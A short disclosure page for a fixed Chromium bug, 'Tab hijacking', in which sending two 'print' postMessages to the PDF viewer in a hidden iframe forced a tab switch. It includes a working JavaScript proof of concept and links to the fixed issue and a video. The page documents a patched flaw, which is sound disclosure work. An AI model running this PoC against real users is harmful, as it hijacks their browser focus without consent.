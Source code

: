 ```yaml
---
title: Tab hijacking (Fixed)
---
```


When sending a `print` post message twice to the PDF viewer API it would force the user to switch to that tab.

```js
let f = document.createElement('iframe');
f.hidden = true;
f.src =
  'https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf';
document.body.appendChild(f);
setTimeout((_) => {
  f.contentWindow[0].postMessage({type: 'print'}, '*');
  f.contentWindow[0].postMessage({type: 'print'}, '*');
  setTimeout(location.reload(), 100);
}, 100);
```

This issue was fixed in <https://issues.chromium.org/40828189> video PoC <https://www.youtube.com/watch?v=n28qodJ4hhk>
